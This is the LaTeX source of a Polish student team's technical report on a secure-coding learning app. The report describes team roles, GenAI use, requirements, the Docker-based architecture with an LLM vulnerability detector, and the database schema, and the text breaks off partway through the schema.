\documentclass[12pt,a4paper]{article}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[polish]{babel}
\usepackage[margin=2cm]{geometry}
\usepackage{graphicx}
\usepackage{booktabs}
\usepackage{array}
\usepackage{longtable}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{titlesec}
\usepackage{fancyhdr}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{enumitem}
\usepackage{microtype}
\usepackage{parskip}
\usepackage{tcolorbox}
\usepackage{mdframed}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{float}
\usepackage{svg}
\usepackage{dirtree}

\pagestyle{fancy}
\fancyhf{}
\rhead{Safe Coding Learning App}
\lhead{Sprawozdanie techniczne}
\cfoot{\thepage}


\definecolor{primary}{RGB}{31, 78, 121}
\definecolor{accent}{RGB}{192, 0, 0}
\definecolor{codebg}{RGB}{245, 245, 245}
\definecolor{codeframe}{RGB}{200, 200, 200}
\definecolor{good}{RGB}{0, 128, 0}
\definecolor{warn}{RGB}{180, 80, 0}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\tcbuselibrary{listings,breakable,skins}

\DTsetlength{0.8em}{1.6em}{0.2em}{0.4pt}{0pt}
\renewcommand*{\DTstyle}{\ttfamily\scriptsize}
\newtcolorbox{treebox}[1][]{%
  enhanced,
  breakable,
  colback=gray!2,
  colframe=gray!35,
  boxrule=0.4pt,
  arc=2pt,
  left=6pt,right=6pt,top=4pt,bottom=4pt,
  #1
}

\lstdefinestyle{code}{
  basicstyle=\ttfamily\footnotesize,
  columns=fullflexible,
  keepspaces=true,
  breaklines=true,
  breakatwhitespace=true,
  postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space},
  tabsize=2,
  showstringspaces=false,
  commentstyle=\color{gray!70!black},
  keywordstyle=\color{blue!60!black},
  stringstyle=\color{green!40!black}
}
\lstset{style=code}

\newtcblisting{codebox}[1][]{%
  enhanced,
  breakable,
  listing only,
  listing options={style=code},
  colback=gray!2,
  colframe=gray!35,
  boxrule=0.4pt,
  arc=2pt,
  left=6pt,right=6pt,top=4pt,bottom=4pt,
  #1
}

\newtcbinputlisting{\treefile}[2][]{%
  enhanced,
  breakable,
  listing file={#2},
  listing only,
  listing options={style=code,basicstyle=\ttfamily\scriptsize,numbers=none},
  colback=gray!2,
  colframe=gray!35,
  boxrule=0.4pt,
  arc=2pt,
  left=6pt,right=6pt,top=4pt,bottom=4pt,
  title={#2},
  fonttitle=\ttfamily\footnotesize,
  #1
}

% % Wymiary strony:
% \hoffset=-2.0cm                         % Mniejszy lewy margines
% \textwidth=16cm                         % szerzej
% \evensidemargin=0pt

% \voffset=-2cm                           % Mniejszy górny margines
% \textheight=24cm                        % szerzej wzdłuż

% \setlength{\parindent}{0pt}             % Paragraf od początku linii
\setlength{\parskip}{\medskipamount}    % Odstęp pomiędzy paragrafami
\raggedbottom                           % bez rozciągania strony

% Dodatkowe komendy
\newcommand\BS{\char`\\}                % \BS == back-slash
\newcommand\TY{\raise.17ex\hbox{$\scriptstyle\mathtt{\sim}$}}   % \TY == większa tylda w \tt


\lstdefinestyle{pythonstyle}{
    backgroundcolor=\color{codebg},
    commentstyle=\color{gray}\itshape,
    keywordstyle=\color{primary}\bfseries,
    stringstyle=\color{accent},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,
    breaklines=true,
    captionpos=b,
    keepspaces=true,
    numbers=left,
    numbersep=8pt,
    numberstyle=\tiny\color{gray},
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    tabsize=4,
    frame=single,
    rulecolor=\color{codeframe},
    framesep=4pt,
    xleftmargin=16pt,
    xrightmargin=4pt
}
\lstset{style=pythonstyle}

\titleformat{\section}
    {\Large\bfseries\color{primary}}
    {\thesection}{1em}{}[\titlerule]

\titleformat{\subsection}
    {\large\bfseries\color{primary!80!black}}
    {\thesubsection}{1em}{}

\titleformat{\subsubsection}
    {\normalsize\bfseries\color{primary!60!black}}
    {\thesubsubsection}{1em}{}



\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}
\lstset{style=mystyle}


\begin{document}

\begin{titlepage}
    \centering
    \vspace*{\fill}

    {\Huge\bfseries\color{primary} Safe Coding Learning App}\\[0.5em]
    \rule{\textwidth}{1.5pt}\\[3em]

    {\Large\color{gray} Raport Techniczny z Projektu Zespołowego odbywającego się w roku akademickim 2025/26.}\\[3em]

    \rule{\textwidth}{0.5pt}\\[3em]

    
    \begin{tabular}{c}
        \textbf{Autorzy:} \\
        Damian Ciaszczyk \\
        Bartłomiej Ciupak \\
        Jakub Haraszkiewicz \\
        Jan Machowski \\
        Karolina Wiśniewska \\
    \end{tabular}

    \vspace*{\fill}
\end{titlepage}



\tableofcontents
\newpage

\section{Wstęp}

Niniejszy dokument jest zarówno dokumentacją, jak i opisem procesu tworzenia aplikacji \texttt{Safe Coding Learning App} - działań zespołu składającego się z członków opisanych na stronie tytułowej, w ramach przedmiotu \emph{Projekt Zespołowy 1} oraz \emph{Projekt Zespołowy 2}, odbywających się na I stopniu kierunku Informatyka Stosowana, w roku akademickim 2025/2026.

Raport został podzielony na rozdziały względem odpowiednich aspektów systemu, które zespół wyznaczył jako kluczowe do odróżnienia. W owych rozdziałach znajduje się opis ostatecznej implementacji wykorzystanej w systemie, napotkane podczas tworzenia systemu problemy oraz rozwiązania, które zostały wykorzystane w celu ukończenia projektu.

Główny podział aplikacji wygląda następująco:
\begin{itemize}
    \item \textbf{Backend} - serwowanie aplikacji, połączenie z bazą danych, obsługa logowania przez CAS USOS, etc.
    \item \textbf{Frontend} - przednia warstwa aplikacji, interfejs użytkownika i główna przestrzeń dostępu do zadań i tekstów teoretycznych;
    \item \textbf{Model LLM} - proces uczenia LLM, wybrane parametry, efektywność i ocena ostatecznego modelu;
    \item \textbf{Teksty teoretyczne i przykładowe zadania} - zbiór pojęć, wstępów teoretycznych oraz zadań, które zostały stworzone w celu nauki poprzez aplikację. 
\end{itemize}

\subsection{Opis podział zadań między członkami}
\label{ssec:task_division}
\subsubsection*{Damian Ciaszczyk}
 
\begin{enumerate}
    \item Integracja backend'u z LLM - zrealizowana przez wrapper dla biblioteki pozwalającej się komunikować z LLM'em, z relatywnie prostą metodą zmiany gdzie kod do weryfikacji jest wysyłany;
    \item Stworzenie i połączenie bazy danych - zrealizowane przez kontener postgreSQL i połączenie z nim przez endpointy REST API, przechowujący zadania jak i resztę danych potrzebnych do operowania aplikacji;
    \item Śledzenie postępu różnych użytkowników - zrealizowane przez tabele submissions oraz user\_task\_status;
    \item Obsługa wielu użytkowników - zrealizowana przez pooling połączeń do bazy oraz workersów Gunicorn;
    \item Napisanie endpoint'ów wymaganych do sprawnego działania aplikacji;
    \item Napisanie skryptów testowych uzupełniających bazę przykładowymi zadaniami do przetestowania odpowiednich powiązanych z wymienionymi wyżej endpoint'ami.
\end{enumerate}

\subsubsection*{Bartłomiej Ciupak}
\begin{enumerate}
    \item Znalezienie faktycznego, oraz próba stworzenia syntetycznego zbioru danych do uczenia LLM;
    \item Wsparcie w implementacji backend'u w końcowym etapie projektu.
\end{enumerate}

\subsubsection*{Jakub Haraszkiewicz}
\begin{enumerate}
    \item Stworzenie makiet frontend'u, w tym: widoku głównego, widoku postępu wypełnienia zadań, widoku edytora tekstu, strony wstępnej, widoku wstępu teoretycznego;
    \item Implementacja struktury komponentów interfejsu graficznego na podstawie określonych makiet;
    \item Implementacja edytora tekstowego na potrzeby zadań;
    \item Integracja frontend'u z warstwą backend'u; 
    \item Testy integracyjne systemu.
\end{enumerate}

\subsubsection*{Jan Machowski}
\begin{enumerate}
    \item Wyszukanie możliwości stworzenia oraz implementacji LLM;
    \item Proces czyszczenia i transformacji danych do uczenia LLM;
    \item Uczenie / dostosowanie LLM do potrzeby detekcji podatności w kodzie;
    \item Testy i walidacja działania modelu.
\end{enumerate}

\subsubsection*{Karolina Wiśniewska}
\begin{enumerate}
    \item Dobór, definicja i podział tematów uczenia;
    \item Stworzenie wstępów teoretycznych oraz zadań na potrzeby aplikacji.
\end{enumerate}
\subsection{Opis przebiegu prac i wykorzystywanych narzędzi do pracy zespołowej}

W ramach realizacji projektu, wykorzystano następujące narzędzia do pracy:
\begin{itemize}
    \item \textbf{Messenger} - komunikator tekstowy, na którym została stworzona grupa zawierająca wszystkich członków zespołu. Była ona pierwszym punktem spotkania, oraz miejscem wymiany informacji w okresie intensywnej pracy nad systemem;
    \item \textbf{Microsoft Teams} - komunikator, na którym odbyły się wstępne spotkania ustalające zakres prac;
    \item \textbf{GitHub} - narzędzie wykorzystywane do przechowywania i udostępniania kodu, wybrana ze względu na dostępność oraz popularność;
    \item \textbf{GitHub Projects} - narzędzie zarządzania projektami w GitHub, na którym została stworzona tablica dla projektu zespołowego;
    \item \textbf{MS Word, VS Code, IDE} - edytory tekstu wykorzystane do pisania kodu, notatek oraz sprawozdania.
\end{itemize}

Poniżej znajduje się wypowiedzi poszczególnych członków zespołu na temat przebiegu prac w ich zakresach:

\subsubsection*{Damian Ciaszczyk}

Po ustaleniach co do podziału prac 28/10/2025 oraz ustaleniu konkretnych rozwiązań które planuję wykorzystać (PostgreSQL dla bazy danych, FastAPI dla endpointów), faktyczne prace nad projektem rozpocząłem w okolicach lutego 2026. Wpierw zacząłem zastanawiać się nad odpowiednią metodą do autentykacji użytkowników, gdzie doszedłem do wniosku że ze względu na tematykę okoliczną studiom najlepszym rozwiązaniem będzie wykorzystanie API USOS. 

Ze względu na to, że pierwszy raz pisałem autentykację OAuth, do 25 marca pracowałem nad szkieletem backendu głównie sam, okazjonalnie komunikując się głównie z Jakubem odpowiadającym za Frontend, aby wiedział że logowanie chcę zrobić np. właśnie po API USOS. Dnia 25 marca uznałem że postęp nad backendem był wystarczający aby pokazać go innym członkom zespołu, więc wrzuciłem to co miałem do tej pory przygotowane do repozytorium: logowanie za pomocą USOS, początkowy szkielet bazy z luźną strukturą przechowywania plików, niedopracowanym połączeniem z samą bazą, stubami endpointów \texttt{profile}, \texttt{tasks}, \texttt{submissions} oraz \texttt{tasks/task\_id}, zwracającymi tylko informację jaki to endpoint. Nie udostępniłem tego repozytorium wszystkim członkom ze względu na to, że integrację z tą częścią potrzebował głównie frontend. Mniej więcej w tym czasie zaprosiłem do kolaboracji nad repozytorium Jakuba, aby widział do czego mniej więcej ma przygotować swój frontend, jak i Bartłomieja Ciupaka, chociaż ostatecznie zaczął pracować nad repozytorium w czerwcu.

Przez następne 3 miesiące okazjonalnie wprowadzałem zmiany do repozytorium. Warto wspomnieć, że Kuba pomógł mi dodać CORS middleware oraz odpowiednie dla frontendu przekierowanie 1 kwietnia. Pod koniec maja zaczęła się intensywna praca nad integracją przygotowanego przeze mnie API do frontendu który przygotował Kuba, która była trudniejsza niż musiała być ze względu na to, że chciałem dodać kilka swoich pomysłów bez przedyskutowania ich, odbiegając trochę od ustalonej przeze mnie i Kuby wizji systemu. 

Całkowita asymilacja repozytoriów frontendu, backendu i modelu LLM nastąpiła na początku czerwca, celem zebrania całej dotychczasowej pracy w jednym miejscu i ułatwienia integracji między nimi. To był także moment gdy wszyscy członkowie zespołu dołączyli do kolaboratorów w repozytorium. Wtedy też powstała integracja sprawdzania zadań z modelem LLM, jak i pełne dostosowanie wykorzystywanych i oczekiwanych endpointów do potrzeb frontendu. Mniej więcej wtedy też zaczęło się dostosywanie metod dodania zadań do aplikacji w sposób pasujący do dostarczonych zadań, chociaż nie obyło się to bez problemów. 

Po za współpracą nad repozytorium na Github, przez cały okres pracy nad backend'em komunikowałem się osobiście jak i na platformie Messenger z Kubą, z dwa razy wspomniałem Bartoszowi o postępach oraz raz Karolinie w maju, oraz od 25 maja panowała intensywna komunikacja między członkami zespołu na temat wykonywanych prac na Messengerze.

\subsubsection*{Bartłomiej Ciupak}
W maju miałem istotny wkład w tworzenie projektu w postaci wyszukania zbioru danych na potrzeby uczenia LLM. Wpierw chciałem stworzyć dane syntetyczne, ale po krótkim zastanowieniu postanowiłem poszukać w internecie przykładów i znalazłem ostateczny zbiór. Dodatkowo, w czerwcu starałem się pomóc zespołowi w tym, o co byłem poproszony, m.in. w integracji niektórych zadań w systemie. 

\subsubsection*{Jakub Haraszkiewicz}
Pracę nad frontend'em rozpocząłem w listopadzie od stworzenia makiet projektu w Figma, żeby mieć jednolitą wizję tego jak system ma wyglądać. Następnie przeszedłem do implementacji, zaczynając od widgetów tematów i ikon zadania. W grudniu rozszerzyłem frontend o ekran tematów i zadań oraz połączyłem ze sobą istniejące dotrychczas ekrany. 

W styczniu pracowałem nad funkcjonalnością ekranu kodowania - wprowadziłem do aplikacji ekranu zadań wykorzystanie edytora Monaco, zaimplementowałem wstępną wersję drzewa plików, co rozwinąłem w lutym poprzez dodanie drzewka i jego obsługi do lewego panelu ekranu. Panel ten wykorzystałem również z prawej strony w celu wyświetlenia instrukcji danego zadania.

W marcu rozpocząłem proces tworzenia ekranu logowania, poprzez zaimplementowanie wizji z zamodelowanych makiet, lecz dopiero w maju dokończyłem integrację tego ekranu z CAS USOS aby móc w pełni wykorzystać pomysł z uwierzytelnianiem przez uczelnianą platformę. Na przestrzeni kwietnia, maja oraz czerwca skupiłem się również na integracji frontend'u i backend'u, zezwalanie backend'owi na dostęp do frontend'u, w tym do pobierania zadań. Na początku czerwca, po otrzymaniu odpowiednich plików ze wstępami teoretycznymi, byłem w stanie dokończyć ich wyświetlanie w dedykowanym ekranie. 

\subsubsection*{Jan Machowski}
Według wstępnych założeń, które uzgodniliśmy w październiku, miałem zająć się częścią teoretyczną. Niestety, pracę nad projektem zacząłem bardzo późno i na inny temat, który został do zrobienia - ostatecznie zająłem się uczeniem modelu LLM. Wpierw, na początku maja, zacząłem własny research dotyczący metod przystosowania LLM do potrzeb projektowych na podstawie oryginalnych informacji od Karoliny. Proces uczenia rozpocząłem w połowie maja, gdy stworzyłem potok transformacji danych dla zbioru otrzymanego od Bartłomieja oraz stworzyłem skrypt w Python do uczenia modelu.

Podjąłem łącznie 3 próby dostosowania oraz walidacji modelu, z czego ostatnia (a zarazem jedyna w pełni ukończona) trwała ok. 25 godzin czystych obliczeń na karcie graficznej. Od razu po dostrojeniu modelu zająłem się weryfikacją jego działania na próbie testowej, co również się udało. W czerwcu zająłem się wystawianiem oraz konteneryzowaniem modelu LLM napisaniem klienta dostępu dla ułatwienia komunikacji oraz przekazałem Damianowi kod w celach integracji z backend'em. Od momentu przekazania tych elementów, poza komunikacją i lekkim wspomaganiem w integracji, skupiłem się na redakcji niniejszego raportu na podstawie informacji od poszczególnych członków zespołu.


\subsubsection*{Karolina Wiśniewska}
Po wstępnych spotkaniach w październiku, przystąpiłam do rozeznania się i przekazania osobom od LLM informacji w temacie dostrajania modeli do specyficznych zadań - w tym wstępne założenia, proponowane modele. Następnie, pracę kontynuowaną podjęłam w maju - wówczas zebrałam tematy do adaptacji, informację którą również przekazałam do Jana. Wstępy teoretyczne i przykładowe zadania do bazy zostały przygotowane nieco później, na początku czerwca. Ze względu na ograniczony czas, selekcja tematów była dokonana (w przeważającej mierze) na podstawie materiałów z przedmiotu Ochrona Danych w Systemach Informacyjnych. Na podstawie wzoru podanego przez Jakuba Haraszkiewicza, utworzyłam utworzony plik z zadaniami, który przekazałam do dalszej obróbki.


\subsection{Specyfikacja wymagań systemu}
Aplikacja \texttt{Safe Coding Learning App} jest aplikacją do interaktywnego uczenia się znanych, istniejących podatności w cyberbezpieczeństwie. W założeniu, jest to aplikacja web'owa z możliwością stworzenia konta / logowania za pomocą zaufanego źródła, która ułatwia praktykę pisania bezpiecznego kodu za pomocą zadań sprawdzanych przez odpowiednio dostosowany model uczenia maszynowego.

Poniżej znajduje się spis głównych wymagań systemu:
\begin{enumerate}
    \item \textbf{Użytkownicy i logowanie} - system ma umożliwić logowanie poszczególnych użytkowników, tj. studentów, na ich indywidualne konta;
    \item \textbf{Przekazywanie treści oraz zadania} - w systemie mają znaleźć się potrzebne opisy teoretyczne podatności kodu, których uczniowie będą się uczyć. W to wchodzi wstęp teoretyczny objaśniający podatność, możliwości jej zapobiegnięcia oraz przykłady kodu. Do tego, w systemie mają znaleźć się zadania pozwalające na utrwalenie zdobytej wiedzy - główny typ zadania, który ma wystąpić w systemie, to napisanie bezpiecznego, lub zmodyfikowanie podatnego kodu tak, aby pozbyć się wrażliwości;
    \item \textbf{Model LLM do detekcji wrażliwości} - system ma mieć zintegrowany model LLM, dostosowany specjalnie do zadania wykrywania określonych podatności w kodzie źródłowym. W założeniu, w zadaniach na napisanie / modyfikację kodu, model LLM jest wykorzystywany do automatycznego sprawdzenia występowania podatności w kodzie;
    \item \textbf{Skalowalność} - system ma mieć możliwość rozwoju tematyk, zarówno w przypadku treści teoretycznych, zadań oraz sprawdzania odpowiedzi przez model LLM;  
    \item \textbf{Bezpieczeństwo} - system ma być bezpieczny na znane podatności aplikacji webowych;
    \item \textbf{Niezawodność} - system ma być dostępny dla użytkowników, zapisywać ich postęp w wykonaniu zadań oraz działać w przewidywalny, poprawny sposób.
\end{enumerate} 

\subsection{Opis narzędzi GenAI oraz ich wykorzystanie w projekcie}

Ponownie, niniejsza sekcja zostanie podzielona na wypowiedzi członków zespołu, analogicznie do sekcji \ref{ssec:task_division}, w celu ujęcia pełnego obrazu wykorzystania narzędzi GenAI przez każdego z członków: 

\subsubsection*{Damian Ciaszczyk}
Gdy postępowały powolne prace w okresie luty-maj, korzystałem wyłącznie z autouzupełniania linijek które i tak potrzebowało dużo zmian, aby wykonywało prawidłowe zadanie. W okresie błyskawicznej integracji z pozostałymi elementami frontendu, wykorzystywałem narzędzia GenAI do wyszukiwania błędów w kodzie, jak i ogólnej pomocy w rozwiązywaniu powstałych problemów.

\subsubsection*{Bartłomiej Ciupak}
Nie wykorzystałem GenAI w projekcie.

\subsubsection*{Jakub Haraszkiewicz}
W pierwszych fazach projektowania frontend'u wykorzystałem Deepseek do stworzenia wstępnej wersji Panelu z drzewkiem / opisem zadania, którą potem w większości edytowałem aby dostosować do mojej wizji. W międzyczasie, korzystałem z GenAI aby wyszukiwać informacje dotyczące drobnych zagwostek, przykładowo do pomocy ze stworzeniem plików CSS.
\subsubsection*{Jan Machowski}
Z uwagi na moje niskie zapoznanie się z tematem dostosowywania modeli LLM przed tym projektem, wykorzystałem GenAI (Claude) w celu stworzenia podsumowania najistotniejszych aspektów dostosowywania modelu. Oczywiście, po przeczytaniu podsumowania zrobiłem własny research, aby potwierdzić informacje które otrzymałem i móc odpowiednio dostosować model. GenAI wykorzystywałem również w celu debugowania problemów, które nie wiedziałem jak rozwiązać - przykładowo, błąd z modułem \texttt{multiprocessing} w systemie Windows (opisany w sekcji \ref{ssec:problem_tokenization}).  

\subsubsection*{Karolina Wiśniewska}
Wykorzystałam GenAI do niewielkiej pomocy w tworzeniu kodu do przykładowych zadań, w językach z którymi nie mam dużego doświadczenia (np PHP). 

\section{Backend systemu}
\subsection{Architektura systemu}
Aplikacja została zaprojektowana jako zbiór mikroserwisów w oparciu o kontenery Docker, zarządzanych przez \texttt{docker compose}. Zapewnia to przenośność, separację środowisk jak i możliwość niezależnego testowania i rozwijania poszczególnych elementów aplikacji. Poniżej przedstawiono ogólny układ serwisów i wolumenów w \texttt{docker-compose.yml} oraz kluczowe decyzje architektoniczne. 

\subsubsection{Opis serwisów}
Plik \texttt{docker-compose.yml} definiuje sześć kontenerów, z których każdy pełni odrębną rolę:

\begin{itemize}
    \item \textbf{\texttt{db}} - baza danych PostgreSQL. Schemat inicjalizowany jest automatycznie przez skrypt \texttt{init.sql} zamontowany w katalogu startowym. Dane przechowywane są w nazwanym wolumenie \texttt{postgres\_data}, co gwarantuje ich trwałość między restartami;
    
    \item \textbf{\texttt{web}} - główny serwer backendowy FastAPI. Kod źródłowy montowany jest jako wolumen (\texttt{./backend:/app}), dzięki czemu zmiany wprowadzane w edytorze natychmiast odzwierciedlane są w działającym kontenerze (tryb \texttt{––reload} w fazie rozwoju; w produkcji używany jest Gunicorn z workerami Uvicorn). Serwis łączy się z bazą danych przez zmienną środowiskową \texttt{DATABASE\_URL} i zależy od \texttt{db}. Dodatkowo montowany jest katalog \texttt{./SCLA\_ML/app:/verifier}, udostępniający bibliotekę klienta dla usługi weryfikacji kodu;
    
    \item \textbf{\texttt{frontend}} - serwer deweloperski React + Vite, udostępniony na porcie \texttt{5173}. Źródła frontendu są montowane jako wolumen, a katalog \texttt{node\_modules} wewnątrz kontenera jest chroniony przed nadpisaniem. Zmienna \texttt{VITE\_API\_URL} wskazuje na backend, umożliwiając bezpośrednie wywołania API z przeglądarki podczas prac programistycznych. Ten serwis służył głównie rozwojowi frontendu jak i integracji z backendem przed postawieniem całego serwisu na silniku nginx;
    
    \item \textbf{\texttt{nginx}} - serwer Nginx pełniący funkcję bramy produkcyjnej. Obraz budowany jest wieloetapowo: najpierw kompilowany jest frontend React, a następnie skopiowany zostaje do końcowego obrazu \texttt{nginx:alpine}. Dzięki temu Nginx samodzielnie serwuje pliki statyczne i nie potrzebuje osobnego kontenera z frontendem. Równocześnie działa jako reverse-proxy dla API (ścieżki \texttt{/api/}), terminuje SSL (certyfikaty z \texttt{./nginx/ssl}) i wymusza ruch HTTPS. Zastosowano w nim również mechanizmy rate limiting oraz nagłówki bezpieczeństwa;
    
    \item \textbf{\texttt{vuln-detector}} - serwis odpowiedzialny za automatyczną analizę podatności w przesłanych rozwiązaniach. Wykorzystuje model LLM \texttt{SCLA\_ML\_vuln\_detector}  zoptymalizowany do wykrywania luk w kodzie, opisany w sekcji \textbf{TODO - wpisz sekcję}, działający dzięki serwisowi \texttt{Ollama}. Kontener rezerwuje akcelerator GPU, montuje wolumen z danymi modelu (\texttt{ollama\_data}) i udostępnia interfejs API na porcie \texttt{11434}. Dodatkowo, w celu kontroli stanu załadowanego modelu na bieżąco, zdefiniowano \textit{healthcheck} sprawdzający gotowość usługi;
    
    \item \textbf{\texttt{dev}} - opcjonalne środowisko deweloperskie z \textit{code-server} (VS Code w przeglądarce). Montuje cały katalog projektu w \texttt{/workspace} i udostępnia go przez HTTPS na porcie \texttt{8443}. Ułatwia zdalną pracę nad kodem bez lokalnej konfiguracji IDE.
\end{itemize}

\subsubsection{Wolumeny i trwałość danych}
W projekcie zdefiniowano trzy nazwane wolumeny:
\begin{itemize}
    \item \texttt{postgres\_data} - przechowuje pliki bazy danych PostgreSQL;
    \item \texttt{code\_server\_config} - zapamiętuje ustawienia i rozszerzenia code-server;
    \item \texttt{ollama\_data} - przechowuje model \texttt{SCLA\_ML\_vuln\_detector} (Ollama), dzięki czemu nie jest on ściągany ponownie po restarcie kontenera.
\end{itemize}
Pozostałe katalogi (backend, frontend, konfiguracja Nginx) montowane są jako \texttt{bind mounty} z systemu gospodarza, co umożliwia szybką modyfikację kodu bez przebudowywania obrazów.

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.8\textwidth]{images/backend/kontenery_slim.png}
  \caption{Widok uruchomionych kontenerów - \texttt{docker-pretty-ps --slim} pokazuje sześć serwisów.}
  \label{fig:dockerps}
\end{figure}

\begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.8\textwidth]{images/backend/kontener_example.png}
  \caption{Widok szczegółowy konteneru nginx - \texttt{docker-pretty-ps} pokazuje między innymi połączenie tcp na portach, zapewniające dostarczenie pakietów.}
  \label{fig:dockerps}
\end{figure}

\subsubsection{Struktura katalogów - ogólny zarys}
Główne komponenty zgrupowano w wymienionych poniżej podkatalogach:
\begin{itemize}
    \item \texttt{backend/} - zawiera logikę serwerową, w tym: 
        \begin{itemize}
            \item \texttt{api\_endpoints.py} - endpointy API;
            \item \texttt{db\_operations/} - moduł dostępu do bazy danych  z pulą połączeń;
            \item \texttt{usos\_api/} - moduł integracyjny z CAS USOS;
            \item \texttt{verification.py} - moduł weryfikacji z wykorzystaniem LLM;
            \item \texttt{scripts/} - skrypty pomocnicze, m.in. do dodawania zadań i testów.
        \end{itemize}
    \item \texttt{frontend/} - aplikacja React zbudowana z Vite. Struktura odpowiada konwencjonalnemu projektowi SPA: katalog \texttt{src/} z podziałem na komponenty, strony, konteksty oraz pliki pomocnicze;
    \item \texttt{database/} - plik \texttt{init.sql} definiujący schemat bazy (tabele: użytkownicy, zadania, zgłoszenia, wyniki itd.);
    \item \texttt{nginx/} - konfiguracja Nginx (\texttt{nginx.conf}) oraz certyfikat SSL;
    \item \texttt{SCLA\_ML/} - mikroserwis analizy podatności: zawiera model GGUF, bibliotekę klienta (\texttt{SCLA\_ML\_vuln\_scanner\_client.py}) oraz materiały treningowe.
\end{itemize}

Sieć wewnętrzna Dockera zapewnia komunikację między kontenerami po nazwach serwisów (np. \texttt{db}, \texttt{web}). Aplikacja konfigurowana jest przez zmienne środowiskowe przekazywane z pliku \texttt{.env}.

\subsubsection{Testy i spostrzeżenia}
Podczas uruchamiania całego stosu (\texttt{docker compose up}) zaobserwowano, że:
\begin{itemize}
    \item Wszystkie kontenery startują w prawidłowej kolejności - backend przed włączeniem czeka na bazę danych, a Nginx czeka na backend;
    \item Wolumeny dla kodu źródłowego umożliwiają natychmiastowe wprowadzanie poprawek bez konieczności przebudowy obrazów, co znacząco przyspiesza cykl deweloperski.
\end{itemize}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{images/backend/diagram.png}
  \caption{Schemat komunikacji między kontenerami.}
  \label{fig:flow}
\end{figure}

\subsection{Struktura bazy danych}
\label{sec:backend_data_structure}
Baza danych PostgreSQL przechowuje wszystkie informacje potrzebne do obsługi aplikacji. Poniżej przedstawiony jest spis tabel oraz ich kluczowych relacji:

\begin{itemize}
    \item \texttt{users} - dane użytkowników pobierane z USOS:
    \begin{itemize}
        \item \texttt{id} pobrane z systemu USOS;
        \item \texttt{Uname} - imię użytkownika;
        \item \texttt{Usurename} - nazwisko użytkownika;
        \item \texttt{user\_type} - 0 => student, 1/2 => pracownik.
    \end{itemize}
    \item \texttt{courses} - kursy: 
    \begin{itemize}
        \item \texttt{name} - nazwa kursu;
        \item \texttt{course\_owner\_id} - wskaźnik na prowadzącego.
    \end{itemize}
    \item \texttt{tasks} - zadania powiązane z kursem:
    \begin{itemize} 
        \item \texttt{title} - tytuł;
        \item \texttt{difficulty} - poziom trudności, spośród (\texttt{easy/medium/hard});
        \item \texttt{languages} - lista języków programowania związanych z zadaniem, tablica tekstów;
        \item \texttt{description} - opis, polecenie zadania.
    \end{itemize}
    Dodatkowo każdy rekord zadania jest rozszerzany przez tabele pomocnicze.
    \item \texttt{task\_files} - pliki startowe zadania, tworzące wirtualne drzewo katalogów: 
    \begin{itemize}
        \item \texttt{file\_path} (np. \texttt{root/index.html});
        \item \texttt{language};
        \item \texttt{content}.
    \end{itemize}
    \item \texttt{submissions} - zgłoszenia rozwiązań użytkowników: 
    \begin{itemize}
        \item \texttt{user\_id};
        \item \texttt{task\_id};
        \item \texttt{content} (typu JSONB, przechowujący całe drzewo plików).
    \end{itemize}
    \item \texttt{user\_task\_status} - śledzenie postępu: 
    \begin{itemize}
        \item \texttt{user\_id};
        \item \texttt{task\_id};
        \item \texttt{status} - spośród (\texttt{new/inProgress/done});
        \item \texttt{last\_viewed};
        \item \texttt{content} (również JSONB). 
    \end{itemize}
    Klucz główny na parze (\texttt{user\_id}, \texttt{task\_id}).
    \item \texttt{assigned\_tasks} - zadania przypisane studentowi przez prowadzącego: 
    \begin{itemize}
        \item \texttt{user\_id};
        \item \texttt{task\_id};
        \item \texttt{assigner\_id}.
